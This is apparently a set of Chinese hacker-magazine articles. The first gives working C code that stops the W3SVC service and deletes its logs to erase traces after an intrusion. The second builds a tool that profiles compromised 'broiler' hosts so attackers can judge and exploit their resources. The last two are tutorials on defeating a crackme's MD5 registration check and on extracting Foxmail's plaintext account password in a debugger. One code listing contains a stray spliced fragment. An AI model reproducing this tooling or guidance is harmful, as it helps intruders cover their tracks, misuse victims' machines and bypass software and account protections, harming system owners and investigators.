清除日志是每次入侵后都必须要做的事，以免被别人发现入侵痕迹，网络上虽然有很多非常流行的清除日志的工具，但遗憾的是几乎都没有实际的效用。考虑到朋友们的需要，今天我们就自己来打造一份功能完备的清除日志工具！

我们知道，如果想要清除日志，那么首先应该停止服务，然后用 `GetSystemDirectory()` 来获取系统目录，再删除日志文件，最后用一个函数来重启服务。我们比较常见的是 W3SVC 服务，下面就以它为例来说明如何通过编程来删除日志。

### 预备函数

首先，`OpenSCManager` 函数是用来打开指定计算机上的 service control manager database。其函数原型：

```cpp
SC_HANDLE OpenSCManager(
    LPCTSTR lpMachineName,   // 指定计算机名，若为空则指定为本机；
    LPCTSTR lpDatabaseName,  // 指定要打开的 service control manager database 名，默认为空；
    DWORD dwDesiredAccess    // 指定操作的权限；
);
```

其中参数 `dwDesiredAccess`，可以为下面取值之一：
- `SC_MANAGER_ALL_ACCESS` // 所有权限；
- `SC_MANAGER_CONNECT` // 允许连接到 service control manager database;
- `SC_MANAGER_CREATE_SERVICE` // 允许创建服务对象并把它加入 database;
- `SC_MANAGER_ENUMERATE_SERVICE` // 允许枚举 database 中的 Service;
- `SC_MANAGER_LOCK` // 允许锁住 database;
- `SC_MANAGER_QUERY_LOCK_STATUS` // 允许查询 database 的封锁信息；

再有，`OpenService` 函数能打开指定的 Service：函数调用成功则返回打开的 Service 句柄，失败则返回 NULL。其函数原型如下：

```cpp
SC_HANDLE OpenService(
    SC_HANDLE hSCManager,    // 指向 service control manager database 的句柄，由 OpenSCManager 返回；
    LPCTSTR lpServiceName,   // 为 Service 的名字；
    DWORD dwDesiredAccess    // 访问权限；
);
```

Service 程序没有专门的停止函数，而是用 `ControlService` 函数来控制 Service 的暂停、继续、停止等操作。其函数原型如下：

```cpp
BOOL ControlService(
    SC_HANDLE hService,
    DWORD dwControl, 
    LPSERVICE_STATUS lpServiceStatus // 一个指向 SERVICE_STATUS 的指针；
);
```

参数 `dwControl` 指定发出的控制命令，可以为以下几个值：
- `SERVICE_CONTROL_STOP`：停止 Service；
- `SERVICE_CONTROL_PAUSE`：暂停 Service；
- `SERVICE_CONTROL_CONTINUE`：继续 Service；
- `SERVICE_CONTROL_INTERROGATE`：查询 Service 的状态；
- `SERVICE_CONTROL_SHUTDOWN`：让 `ControlService` 调用失败；

### 编写过程

首先要停止服务，具体程序如下：

```c
void StopServices(LPCTSTR lpServiceName)
{
    SC_HANDLE sc=OpenSCManager(NULL, NULL, SC_MANAGER_ALL_ACCESS);
    if(sc)
    {
        SC_HANDLE sh=OpenService(sc, lpServiceName, SERVICE_STOP);
        if(sh)
        {
            BOOL bControl;
            SERVICE_STATUS ServiceStatus;
            bControl=ControlService(sh, SERVICE_CONTROL_STOP, &ServiceStatus);
            if(bControl)
            {
                printf("success to stop the service \"%s\"\n", lpServiceName);
            }
            else
            {
                printf("failed to stop the service \"%s\"\n", lpServiceName);
            }
            CloseServiceHandle(sh);
        }
        CloseServiceHandle(sc);
    }
    return;
}
```

然后再删除已经记录的日志文件，删除文件的函数如下：

```c
void DelFiles(LPCTSTR lpFileName)
{
    BOOL dDel=DeleteFile(lpFileName);
    TCHAR tcSystemDirectory[1024];
    GetSystemDirectory(tcSystemDirectory, 1024);
    if(dDel)
    {
        printf("delete file \"%s\" success\n", lpFileName);
    }
    else
    {
        DWORD i=GetLastError();
        printf("delete file \"%s\" failed\n", lpFileName);
    }
}
```

在删除日志成功以后，还需要重新启动服务，我们可以用 `StartService` 函数来启动指定的 Service。其函数原型如下：

```c
BOOL StartService(
    SC_HANDLE hService,            // 指向 Service 的句柄，由 OpenService 返回；
    DWORD dwNumServiceArgs,        // 为启动服务所需的参数的个数；
    LPCTSTR *lpServiceArgVectors   // 为启动服务所需的参数。
);
```

其中，参数 `lpServiceStatus` 是一个指向 `SERVICE_STATUS` 的指针。`SERVICE_STATUS` 是一个比较重要的结构，它包含了 Service 的各种信息，如当前状态、可接受何种控制命令等等。启动服务的具体程序如下：

```c
void StartServices(LPCTSTR lpServiceName)
{
    SC_HANDLE sc=OpenSCManager(NULL, NULL, SC_MANAGER_ALL_ACCESS);
    if(sc)
    {
        SC_HANDLE sh=OpenService(sc, lpServiceName, SERVICE_START);
        if(sh)
        {
            BOOL bControl;
            bControl=StartService(sh, 0, NULL);
            if(bControl)
            {
                printf("success to start the service \"%s\"!\n", lpServiceName);
            }
            else
            {
                printf("failed to start the service \"%s\"!\n", lpServiceName);
            }
            CloseServiceHandle(sh);
        }
        CloseServiceHandle(sc);
    }
    return;
}
```

最后把这几部分综合起来，通过编译，得到的程序运行结果如图 1 所示。在这里我们只是以 W3SVC 服务为例，如果有这方面的爱好，在这个程序基础上再加上一些简单的代码，就可以自己编程实现删除其他服务的日志，希望本文能对大家的编程学习和入侵行动有所帮助！

---

> icefire：如何收集肉鸡的系统信息？如何量身定做一套适合自己使用习惯的肉鸡信息检测程序？这些都是在入侵中常遇到的问题。怎样才能在最短的时间内搞清楚肉鸡的系统情况？当然是自己写程序！很难？当然不是！如果告诉你：自己编写查看肉鸡系统信息的程序非常简单，通过几个实用的 API 就可以实现，你是不是觉得难以置信？好吧，让我们一起 DIY 一个属于自己的肉鸡系统信息检测工具吧！
> 
> 难度等级：中级
> 前置知识：C 语言编写基础

## 轻松实现检测 Windows 肉鸡系统信息
文 / Sky

入侵后第一步做什么？当然是查看肉鸡的各种系统信息，然后再决定这个肉鸡该吃还是该丢？是好鸡还是病鸡？那检测肉鸡系统信息的方法是什么呢？全手工？累！用大程序？不方便传输！该怎么办呢？还是发扬我们的 DIY 精神，自己打造一个适合自己使用习惯的系统信息检测工具吧！follow me!

### 操作系统详细信息收集

我们一般所讲的系统信息包含操作系统版本、service pack、build 号等，如何编程得到这些信息？我们就要用到 `GetVersionEx(LPOSVERSIONINFO lpVersionInfo)` 这个 API 函数了！

这个函数在很多场合已经被提到，很多朋友都知道，但是知道这个函数而不能很好地运用它是可惜的，它的参数是个复杂的 `OSVERSIONINFO` 结构，而且更复杂的是，获得这个结构以后，我们该怎样根据这个结构来判断操作系统类型？由于 Windows 家族版本众多，要理清这里面错综复杂的关系还真不是一件容易的事。

MSDN 上恰好有这样的例子，我对这个例子进行仔细分析后，再对部分代码进行了修改，使之能符合我们程序的要求。最后，把这个功能封装成一个函数，以方便以后使用。这个函数比较长，检测的系统比较多，有些系统我们现在很少遇到了。这个函数的作用就是直接输出操作系统版本、Service Pack 版本和 Build 号。在电脑上的运行结果示例为：

`OS: Microsoft Windows XP Professional (Build 2600)`

### 运行时间收集

肉鸡是不是经常维护、管理是我们判断一个服务器是不是好肉鸡的一大重要标准，试想：如果一个服务器 5 年都不重新启动一次，那它还有什么安全性可言呢？当然，遇到这样的肉鸡可是上辈子修来的福分：）！

Microsoft 正好给我们提供了一个 `GetTickCount()` 函数，这个函数能返回从开机到现在的运行时间，以毫秒计。不过有一点需要注意：由于这个函数返回的是 DWORD 类型的值，因此最多能检测到的运行时间是 49.7 天（这对于普通的肉鸡来说时间已经够了）。

```cpp
// 得到运行时间
void GetRunningTime()
{
    DWORD dwTime;
    int nDay, nHour, nMinute;
    dwTime = GetTickCount();
    nMinute = dwTime / 60000;
    nHour = nMinute / 60;
    nMinute = nMinute - nHour * 60;
    nDay = nHour / 24;
    printf("Running Time: ");
    printf("%d day(s),", nDay);
    printf("%d hour(s),", nHour);
    printf("%d minute(s)", nMinute);
    printf("\n");
}
```

成功编译运行后，在电脑上的输出结果为：
`Running Time: 0 day(s),0 hour(s),18 minute(s)`

这样是不是很方便呢？

### 主机名和当前用户名收集

这个服务器的主机名是什么？上面有哪些用户？当前用户名是什么？这些都是相当重要的信息，说不定这个服务器就是什么 FBI 的服务器呢！

Microsoft 提供的函数 `GetComputerName()` 和 `GetUserName()` 能很方便地达到这个目的。这两个函数的原型为：

```cpp
BOOL GetComputerName(LPTSTR lpBuffer, LPDWORD lpnSize);
```
其中，`lpBuffer` 是返回主机名缓冲区的地址，`lpnSize` 是指向缓冲区大小的指针。

```cpp
BOOL GetUserName(LPTSTR lpBuffer, LPDWORD nSize);
```
其中，`lpBuffer` 是返回当前用户名的缓冲区地址，`nSize` 也是指向缓冲区大小的指针。具体程序如下：

```cpp
// 得到计算机名
void GetMyComputerName()
{
    LPTSTR lpszName;
    DWORD dwSize = 1024;
    TCHAR tchBuffer[1024];
    lpszName = tchBuffer;
    GetComputerName(lpszName, &dwSize); // 得到主机名
    printf("Computer Name: %s\n", lpszName);
}
``````c
printf("%s", lpszName);
printf("\n");
}

// 得到当前用户名
void GetCurrentUser()
{
    LPTSTR lpszName;
    DWORD dwSize = 1024;
    TCHAR tchBuffer[1024];
    lpszName = tchBuffer;
    GetUserName(lpszName, &dwSize); // 得到当前用户名
    printf("Current User: ");
    printf("%s", lpszName);
    printf("\n");
}
```

这两个函数很简单，在电脑上输出结果为：

```text
Computer Name: SKY
Current User: SKYMAN
```

## 系统文件夹路径收集

如果我们是用 IPC 管道来向肉鸡传送文件，然后再登录上肉鸡，这时候我们就需要知道到什么地方去找那些刚传上来的文件。一般来说，文件是 copy 到 `Admin$\system32` 下面的，而你想过 `Admin$` 代表什么没有？

下面这个函数可以给你答案：

```c
// 得到系统目录
void GetMySystemDirectory()
{
    LPTSTR lpszName;
    DWORD dwSize = MAX_PATH + 1;
    TCHAR tchBuffer[MAX_PATH];
    lpszName = tchBuffer;
    GetSystemDirectory(lpszName, dwSize);
    printf("System Directory: ");
    printf("%s", lpszName);
    printf("\n");
}
```

这里用到了 `GetSystemDirectory()` 这个 API 函数。该函数的原型为：

```c
UINT GetSystemDirectory(LPTSTR lpBuffer, UINT uSize);
```

其中，`lpBuffer` 是返回系统文件夹的缓冲区地址，`uSize` 是该缓冲区的大小。

系统文件夹有了，Windows 文件夹自然也就能得到。不过使用的是另一个 API 函数：`GetWindowsDirectory()`，有兴趣的读者可以自己试试。

这个函数在电脑上输出结果为：

```text
System Directory: D:\WINDOWS\System32
```

注：我的系统是 Win98+WinXP，当前系统是 WinXP，系统盘在 D 盘。

## 肉鸡 CPU 信息收集

CPU 的重要性不需要我再讲了吧？要是一个肉鸡有 4 个 Intel P4 3.2G 的 CPU，嘿嘿，那可是极品哦！

我们知道：在注册表 `HKEY_LOCAL_MACHINE\Hardware\Description\System\CentralProcessor\0` 下面有个 `ProcessorNameString`，它的值就是 CPU 的名字，我们只要把这个值读出来就行了。当然这个值并不是很可靠的，因为可以修改，但是相信很少有人去改它吧？

```c
// 得到 CPU 信息
void GetCPUInfo()
{
    long lResult;
    HKEY hKey;
    TCHAR tchData[64];
    DWORD dwSize;
    lResult = RegOpenKeyEx(HKEY_LOCAL_MACHINE, "Hardware\\Description\\System\\CentralProcessor\\0", 0, KEY_QUERY_VALUE, &hKey);
    if (lResult == ERROR_SUCCESS)
    {
        dwSize = sizeof(tchData);
        RegQueryValueEx(hKey, "ProcessorNameString", NULL, NULL, (LPBYTE)tchData, &dwSize);
        printf("CPU: ");
        printf("%s", tchData);
    }
    else
    {
        printf("CPU: ");
        printf("Unknown");
    }
    RegCloseKey(hKey);
    printf("\n");
}
```

了解这个原理以后，你就可以修改这个值来欺骗别人了。可以手动修改，也可借助工具，比如 Windows 优化大师。

`HKEY_LOCAL_MACHINE\Hardware\Description\System\CentralProcessor\0` 下还有好几个键值与 CPU 有关，如果你觉得仅仅名字不够详细时，也可以把其他感兴趣的键值一并读出来。

在电脑上输出的 CPU 名字为：
`CPU：AMD Athlon(TM) XP1800+`

## 肉鸡内存信息收集

Windows 系统提供了一个 `GlobalMemoryStatus()` API 函数来查询内存状态，利用它就可以很方便地得到物理内存、虚拟内存的当前值。当然，在这里我们只需要得到总物理内存和可用内存大小即可。

该 API 函数的原型为：

```c
void GlobalMemoryStatus(LPMEMORYSTATUS lpBuffer);
```

`lpBuffer` 是一个指向 `MEMORYSTATUS` 结构的指针。执行 `GlobalMemoryStatus()` 函数就可以得到一个 `MEMORYSTATUS` 结构，它表示当前内存的状态。

下面，我们要用到 `MEMORYSTATUS` 结构的两个成员：

```c
SIZE_T dwTotalPhys;
SIZE_T dwAvailPhys;
```

这两个成员从字面上可以了解到前者表示总物理内存，后者表示可用物理内存，但是要注意返回的是以字节为单位的量。

```c
// 得到内存信息
void GetMemoryInfo()
{
    long lVar;
    MEMORYSTATUS memoryStatus;
    memset(&memoryStatus, 0, sizeof(MEMORYSTATUS));
    memoryStatus.dwLength = sizeof(MEMORYSTATUS);
    GlobalMemoryStatus(&memoryStatus);
    lVar = memoryStatus.dwTotalPhys / 1024; // 转换为KB
    printf("Total Memory: ");
    printf("%ld KB\n", lVar);
    lVar = memoryStatus.dwAvailPhys / 1024; // 转换为KB
    printf("Available Memory: ");
    printf("%ld KB\n", lVar);
}
```

输出为以 KB 为单位的内存大小。在电脑上输出结果为：

```text
Total Memory: 261600 KB
Available Memory: 40336 KB
```

## 肉鸡磁盘信息收集

肉鸡硬盘有几个分区？每个分区有多大？剩余空间有多少？能装下多少部电影？能放下多少个论坛？能承受多大的数据？这些都是获得肉鸡后最关心的肉鸡价值问题，如何得到？要达到这个目的稍微复杂一些：

首先，我们要调用 `GetLogicalDriveStrings()` 这个 API 函数，目的是想得到一个包含所有磁盘名的字符串，并把各个磁盘名从这个字符串中提取出来。

`GetLogicalDriveStrings()` 函数的原型为：

```c
DWORD GetLogicalDriveStrings(DWORD nBufferLength, LPTSTR lpBuffer);
```

`lpBuffer` 就是上面提到的那个字符串，`nBufferLength` 是缓冲区的最大值。

识别磁盘类型，比如有固定硬盘分区、光驱、移动分区等。`GetDriveType()` 函数的原型为：

```c
UINT GetDriveType(LPCTSTR lpRootPathName);
```

参数 `lpRootPathName` 表示目标磁盘的根目录名，比如 `C:\`，这个值从上面函数得到。

如果 `GetDriveType()` 返回 `DRIVE_FIXED`，就表示这是一个固定硬盘。但是我试了一下，优盘也同样返回 `DRIVE_FIXED`。这时，就可以调用 `GetDiskFreeSpaceEx()` 来得到该磁盘的空间信息了。

`GetDiskFreeSpaceEx()` 函数原型为：

```c
BOOL GetDiskFreeSpaceEx(
    LPCTSTR lpDirectoryName,
    PULARGE_INTEGER lpFreeBytesAvailable,
    PULARGE_INTEGER lpTotalNumberOfBytes,
    PULARGE_INTEGER lpTotalNumberOfFreeBytes
);
```

`lpDirectoryName` 表示目标磁盘的一个目录名，这个值从 `GetLogicalDriveStrings()` 返回的字符串中得到。

- `lpFreeBytesAvailable` 表示目标磁盘上用户线程可用空间，以字节为单位。
- `lpTotalNumberOfBytes` 表示目标磁盘总大小，以字节为单位。
- `lpTotalNumberOfFreeBytes` 表示目标磁盘剩余空间大小，以字节为单位。

在这个函数里面调用了两次 `GetLogicalDriveStrings()`，第一次调用的目的是获得一个能够容纳包含所有磁盘名的字符串的长度，第二次调用就是获得这个字符串。

这个函数在我的电脑上输出结果为：

```text
Disk Information:
C:\ (FIXED) Total Size: 1619348 KB, Free Size: 1152608 KB
D:\ (FIXED) Total Size: 4128672 KB, Free Size: 1323064 KB
E:\ (FIXED) Total Size: 6269116 KB, Free Size: 1232324 KB
F:\ (FIXED) Total Size: 12269648 KB, Free Size: 1318864 KB
G:\ (FIXED) Total Size: 12189408 KB, Free Size: 2980312 KB
H:\ (FIXED) Total Size: 2562332 KB, Free Size: 1527204 KB
I:\ (CDROM)
```

可看到共有 C-I 7个盘，其中前 6 个是硬盘分区。得到这些信息以后，就可以考虑把肉鸡的硬盘当成电影服务器的存储空间了，呵呵。

## 肉鸡网络信息收集

肉鸡有几块网卡？每个网卡设置是多少 IP？子网掩码是多少？网关和 MAC 地址是多少？——这些信息有什么用？代理、渗透入侵、sniffer 都要用到！

为此，我们需要封装两个函数，一个用来找出网卡的 MAC 地址，另一个检测其他项。

我们先来看看第一个函数。其中，`ASTAT` 是自定义的一个结构：

```c
typedef struct _ASTAT_ {
    ADAPTER_STATUS adapt;
    NAME_BUFFER NameBuff[30];
} ASTAT, *PASTAT;
```

其中，`ADAPTER_STATUS` 又是一个复杂的结构，但是它有个成员我们感兴趣，那就是：

```c
UCHAR adapter_address[6];
```

其实一看就知道这就是网卡的 MAC 地址，被分成 6 个部分，每部分 1 个字节，我们所做的就是把它转换为可读形式即可。

`NCB` 也是一个结构，这个结构虽然复杂，但我们常用到的是其中的 3 个成员：

```c
UCHAR ncb_command; // 命令
PUCHAR ncb_buffer; // 返回结果缓冲区
WORD ncb_length;   // 缓冲区大小
```

我们通常是这样用的：先初始化 `NCB` 结构，给 `ncb_command` 一个命令，给 `ncb_buffer` 和 `ncb_length` 赋值。然后调用 `Netbios()` 函数执行，执行后我们想得到的结果就存放在 `ncb_buffer` 中了。

`Netbios()` 函数原型为：

```c
UCHAR Netbios(PNCB pncb);
```

参数 `pncb` 是指向 `NCB` 结构的指针。

`GetMacAddress()` 有个参数 `DWORD dwIndex`，表示网卡序号，它的值从我下一个函数传过来。

该函数的实现过程就是先执行 `NCBENUM` 命令，枚举每一块网卡；然后执行 `NCBRESET` 命令重置；最后执行 `NCBASTAT` 查询网卡状态。这样我们就得到了每块网卡的 MAC 地址。这个函数涉及到 NETBIOS 编程，有兴趣的朋友可以参考《Visual C++ 网络高级编程》和《Windows 网络编程技术》。

下面实现第二个函数。上面的函数中调用了两个宏 `ALLOCATE_FROM_PROCESS_HEAP()` 和 `DEALLOCATE_FROM_PROCESS_HEAP()`，这两个宏的定义分别为：

```c
#define ALLOCATE_FROM_PROCESS_HEAP( bytes ) HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, bytes )
#define DEALLOCATE_FROM_PROCESS_HEAP( ptr ) if( ptr ) HeapFree( GetProcessHeap(), 0, ptr )
```

`GetAdaptersInfo()` 函数原型为：

```c
DWORD GetAdaptersInfo(PIP_ADAPTER_INFO pAdapterInfo, PULONG pOutBufLen);
```

参数 `pAdapterInfo` 是指向 `IP_ADAPTER_INFO` 结构的指针。`pOutBufLen` 表示指向 `IP_ADAPTER_INFO` 结构的缓冲区大小。`IP_ADAPTER_INFO` 结构成员很多，具体形式可以去查查 MSDN。获得 MAC 地址的时候调用了 `GetMACAddress()` 函数。

这两个函数在电脑上输出结果为：

```text
Network Adapter:
Description: 9N1207F-TX/WOL3 PCI Fast Ethernet Adapter - 数据包计划程序微型端口
MAC Address: 00:30:f1:49:ab:53
IP Address: 192.168.0.6
SubNet Mask: 255.255.255.0
Default Gateway: 192.168.0.1

Description: VMware Virtual Ethernet Adapter for VMnet1
MAC Address: 00:50:56:c0:00:01
IP Address: 192.168.81.1
SubNet Mask: 255.255.255.0
Default Gateway:

Description: VMware Virtual Ethernet Adapter for VMnet8
MAC Address: 00:50:56:c0:00:08
IP Address: 192.168.5.1
SubNet Mask: 255.255.255.0
Default Gateway:
```

第一个是我的网卡，后两个是 VMware 虚拟出来的。

好了，通过上面的一步一步编程，现在你已经可以量身定做适合自己使用的信息检测工具了，同时由于体积非常小，很方便传输，如果肉鸡上有编译器，我们还可以非常快速地自己写一个程序出来，羊毛出在羊身上嘛！祝各位“黑”兄“黑”得愉快！

---

**icefire：** 自 12 期杂志我们初登 Nuke Group 为本刊特别撰写的“Cracker 初级教程教学”文章以来，我们收到了不少读者的好评，我们真诚希望广大破解爱好者和程序开发者都能从我们的文章找到攻防对立间的微妙关系，提升技术！本期文章是 Cracker 初级教程系列的第二篇。在本文中，利用 PEID V0.9、OllyDbg V1.09D、DAMN Hash Calculator V1.51 等工具，通过一个简单的 Crackme 实例来了解加密算法中最流行的单向散列算法，破解的目标是 crackme.exe 程序，已经收录到光盘中，希望大家在看完文章后都能实际地演练，真正体验到 crack 的成就感！

**难度等级：** 低
**前置知识：** 基本跟踪知识，基本工具使用。

## Cracker 初级教程之 MD5 算法破解
文 / 重剑 [Nuke Group]

### MD5 算法原理及使用

单向散列算法也称 Hash（哈希）算法，是一种将任意长度的消息（如用户名、密码、文件等）压缩到某一固定长度（消息摘要）的函数，这一个过程是单向不可逆的，其最大特点也就在于它不可逆上，同时，只要消息任意改变一位，最后产生的散列值都会不同。

著名的 Hash 算法有 MD5、SHA1 等，MD5 就是 Ron Rivest 设计的单向散列函数，MD 是表示消息摘要（Message Digest），它对输入的消息进行运算，最后产生 128 位散列值。

### MD5 的应用范畴

MD5 一般用于数字签名、消息的完整性检测、消息起源认证检测等。MD5 被广泛用于加密和解密技术上，在很多操作系统中（或论坛验证系统、邮件验证系统等），用户的密码是以 MD5 值（或类似的其他算法）的方式保存的，用户 Login 的时候，系统是把用户输入的密码计算成 MD5 值，然后再和系统中保存的 MD5 值进行比较，从而判断是否是合法登录。

同样，在软件的加密保护中也有很多软件采用了 MD5 算法，但由于 MD5 算法为不可逆算法，所以软件一般都只是使用 MD5 算法作为一个加密的中间步骤，比如对用户名做一个 MD5 变换，结果再进行一个可逆的加密变换。这样一来，做注册机时只要先用 MD5 变换进行，然后再用一个逆算法还原就达到注册的目的了。

### MD5 判断、跟踪技巧及 Crackme 实例分析

- **1. MD5 算法的判断**
  最好的判断方法是通过长期积累的经验来判断，也就是说感觉。比如，在进行 MD5 运算时都会初始化 4 个常数：`A=0x01234567, B=0x89abcdef, C=0xfedcba98, D=0x76543210`，如果看到这些常数，就可以初步判断可能用到 MD5 算法。另一种方法是使用相关的工具，使用 PEID 0.9 插件来分析程序用到的密码算法。

- **2. Crack 分析基本技巧**
  首先静态分析程序以寻找突破口，一般先查看帮助文档，或者通过工具分析程序基本结构，然后再动态分析，找到关键代码的时候用 SoftICE、OllyDbg 等工具来载入程序动态分析，了解程序运行流程。

## MD5 及单向散列算法总结

单向散列算法简单的理解就是类似求模的运算：假设现在是 9 点，过了 30 个小时，那是几点呢？可以这样算：9 + 30 mod 24 = 15 点。无论过的时间多长，都会把时间折成 24 小时以内，但不能根据折成的时间推算过了多长时间。同样道理，单向散列算法也是这样，但它不是简单的求模运算，而是进行某种复杂的、非线性的运算生成最后的“指纹”。

生成的“指纹”长度也会不一：CRC32 生成的消息长度为 8 位，MD5 生成的是 32 位，SHA256 生成 256 位……同时，由于 MD5 等算法不可逆，可以根据特定信息生成短的信息指纹，其主要用来进行校验数据，或是用来作为注册码的中间运算过程。这些都需要在破解的过程中非常敏感地觉察到！这也是破解的关键之处！掌握处理过程，最后深入程序做进一步算法破解。

## 3. 实例分析

本实例是一个用姓名和序列号保护的 Crackme。用 OllyDbg 打开它，Alt+F1 打开 command line 窗口，在其上输入 `bp GetDlgItemTextA` 设置断点，然后 F9 运行。输入用户名：lordor，注册码：654321，点击注册按键。中断后，按 Ctrl+F9 返回程序领空，来到如下代码段，我们来详细地分析一下：

可以看到：在 “00401C76 CALL crackme.00401AF0” 处有一个 call，这个 call 是做什么用的呢？观察其输入数及返回的值（即 EAX 处的值），推算这个 call 就是用的 MD5！我们再用工具来验证一下：

先在这句：`00401C70 PUSH EAX`，右击寄存器 EAX，选择：Follow In Dump，查看数据窗口，内容如下：

```text
0012FB58 5D 5E 43 55 5E 43 00 ]^CU^C
```

OK，使用 DAMN Hash Calculator 工具来计算这串 `]^CU^C` 数据的 MD5 值，结果为：`F11D1C0F58097AD480DB165692EF72E2`。在和程序 CALL crackme.00401AF0 计算的结果比较，发现是一样的！至此，整个注册过程分析完成，总结如下：

设注册码长度为 n，用第 n 位注册码与用户名作 xor 运算得串 A，对串求 MD5 值，用其值与注册码第 n-1 位注册码比较，如相等则注册成功！就这样简单（编写注册机略）！

## 使用单向散列算法典型的软件

现在使用 MD5 单向散列的共享程序非常多，学习了本文所讲的方法后，可能很多朋友都想找个实际的程序练练手，嘿嘿，不过需要先申明的是：我们旨在提高整体加、解密水平，千万不能用本文所讲的技术做触犯法律的事！否则，后果自负！

常见的采用 MD5 算法的程序很多，比如国外共享软件 Advanced Email Parser 1.22，这个程序对输入的注册码先在前面加上某固定串，然后对形成的新串求 MD5 值，最后与程序中内置的 2000 个内定的 MD5 值进行比较，如相等则注册成功。大体的思路就是这样了，想实际演练的朋友可以自己试试！

> 编后：本文讲述的 MD5 算法应用是比较广泛的算法，理解并学习 MD5 及其破解有助于提高 Crack 的水平，同时也能让自己写共享软件的朋友了解一种新的加密手段。

> icefire: 在共享软件多如牛毛的今天，破解和加密这一对对立统一的矛盾激烈到了白热化的程度，如何破解程序的注册限制？如何保护自己程序的合法权益？看似矛盾的两个话题其实可以用同样的方法去解决：共同关注最新的 Crack 技术，在攻与防的对立统一中寻求突破！这样我们的安全事业才有前途有望！

本文就是简单地讲述逆向工程及常见程序的破解方法，目标不是为了全面了解工具的使用，而是能掌握组合工具快速达到我们破解的目的。这篇涉及到 Delphi 语言编写的程序，共 3 篇：初级篇、进阶篇及技巧篇。现在网上非常流行用 Delphi 及 C++ Builder 编写的程序，破解的方法都可以参考本文。

- 难度等级：中
- 前提知识：各种 Cracker 工具、Borland 编译器、基本汇编语言

# Cracker 兵器谱组合招式之 Delphi 篇
文/ 重剑 [Nuke Group]

古云：磨刀不误砍柴工。为了更好地破解一个软件，构造一个最佳的工具平台是每一个 Cracker 的追求。在选用工具之前应该明白：工具没有优劣，关键是配合使用。

## 工具

- DeDe 3.5 中文版: Delphi 及 C++ Builder 编写程序的反汇编杀手；
- OllyDbg 1.09D: 集成反汇编及动态调试、程序修改等功能；
- PEiD 0.9: 军情探子；
- AspDie 1.41: 专门脱 ASPack 2.12 壳的程序。

## 实例 1：破除 Foxmail 5.0 Beta 2 账号访问口令保护

### 收集程序相关信息

收集信息是每个 Cracker 必备的良好习惯，可以设想为刺探军情和情报收集。先运行一下带访问口令的 Foxmail，出现要求输入密码的窗体。如果输入的密码不正确，则不能查看账号内的邮件。如果忘记密码可就麻烦了，所以我们要把这个东西给 Crack 掉（嘿嘿，谁叫我是 Cracker 呢？手就是痒啊！）。

我们一起开始：用 PEiD 0.9 打开程序。从得到的结果可以知道，这个程序是用 Delphi 编写，而且程序没有加壳保护。第一步分析工作完成。

### 定位密码处理函数

根据前面“探子”提供的军情，本军师现在做出如下推测及对策：程序可能是对输入的密码与预先正确的密码进行比较，如果不正确，则提示错误。现在关键的一步是快速定位密码输入的地方，看一下怎么处理输入的密码及怎么提示出错！这是很基本的 Cracker 思维，大家都应该熟练掌握。

现在来验证我们的设想对不对。（注：由于破解不同程序的信息不可能是相同的，所以我们必须时时根据军情做出推测。）

现在请猛将 DeDe 出马！用 DeDe 载入程序，由于 DeDe 是把程序载入内存再分析，会等待一段时间，然后出现分析页面。我们关心的是“过程”的处理部分，首先在类单元名中选择 main 这个单元（程序开始运行一般从这部分开始），在右边事件窗口中会列出当前的事件。现在我们来找密码处理部分事件。通过仔细观察及查看，发现这个 `BoxTreeExpanding` 事件最可疑（因为要展开账号才跳出输入口令提示框），双击 `BoxTreeExpanding` 事件进入汇编部分，得到首地址为：`0057C074`。

### 动态分析密码处理过程

现在轮到 OllyDbg 出场，先简单介绍下面将用到的部分功能快捷键：F3 - 打开程序；F9 - 运行程序；F8 - 单步跟踪，遇 call 不跟入；F7 - 单步跟踪，遇 call 跟入；F2 - 设置或清除断点；Ctrl+G - 去到某地方。

F3 载入 Foxmail 程序，OllyDbg 自动反汇编程序，按 Ctrl+C 打开 CPU 窗口，再按 Ctrl+G，在跳出的窗口中输入上面得到的地址值：`0057C074`，在这行按 F2 下断，设置成功的话会在地址处红色显示。

然后 F9 运行程序，切换到 Foxmail 程序，双击账号，程序被中断，转到 OllyDbg，F8 单步执行程序，代码如下所示（“;” 后面是加的注解）：

```assembly
0057C098  XOR EDX, EDX
0057C09A  CALL Foxmail.005B8ECC     ; 这里跳出提示框
0057C09F  TEST AL, AL
0057C0A1  JNZ SHORT Foxmail.0057C0A6
```

由于在 `0057C09A` 处跳出提示框，所以得 F7 进入这个 call，进去后，继续 F8 单步来到这里：

```assembly
005B8F05  JE Foxmail.005B8FCD
005B8F0B  MOV EAX, ESI
005B8F0D  CALL Foxmail.005C17EC
005B8F12  TEST AL, AL
005B8F14  JE SHORT Foxmail.005B8F1F ; 这里判断是否有密码保护
005B8F16  MOV BYTE PTR SS:[EBP-2], 1
005B8F1A  JMP Foxmail.005B8FCD
005B8F1F  CMP BL, 1
005B8F22  JE Foxmail.005B8FCD
005B8F28  MOV ECX, DWORD PTR DS:[5D75EC] ; Foxmail.005D8750
005B8F2E  MOV ECX, DWORD PTR DS:[ECX]
005B8F30  MOV DL, 1
005B8F32  MOV EAX, DWORD PTR DS:[5C0B28]
005B8F37  CALL Foxmail.00436F20
005B8F3C  MOV DWORD PTR SS:[EBP-8], EAX
005B8F3F  XOR EAX, EAX
005B8F41  PUSH EBP
005B8F42  PUSH Foxmail.005B8FC6
005B8F47  PUSH DWORD PTR FS:[EAX]
005B8F4A  MOV DWORD PTR FS:[EAX], ESP
005B8F4D  MOV EAX, DWORD PTR SS:[EBP-8]
005B8F50  MOV EDX, DWORD PTR DS:[EAX]
005B8F52  CALL DWORD PTR DS:[EDX+D8]    ; 这里调用取得输入密码框
005B8F58  DEC EAX
005B8F59  JNZ SHORT Foxmail.005B8FB0    ; 这里判断是否超时
005B8F5B  LEA EDX, DWORD PTR SS:[EBP-C]
005B8F5E  MOV EAX, DWORD PTR SS:[EBP-8]
005B8F61  MOV EAX, DWORD PTR DS:[EAX+2EC]
005B8F67  CALL Foxmail.004446D4         ; 这里取得输入的密码
005B8F6C  MOV EAX, DWORD PTR SS:[EBP-C] ; 密码地址入 EAX
005B8F6F  MOV EDX, DWORD PTR DS:[ESI+28]; Foxmail 内置的真密码
005B8F72  CALL Foxmail.004041DC         ; 比较
005B8F77  JNZ SHORT Foxmail.005B8F8E    ; 如果不等就跳走
005B8F79  CMP BYTE PTR SS:[EBP-1], 0
005B8F7D  JE SHORT Foxmail.005B8F88
```

只要走到 `005B8F72` 这句，EDX 处就是以明文形式出现真密码。真是晕死，大名鼎鼎的邮件处理专家竟然用明码保护账号，怪不得学 Crack 的人越来越多……

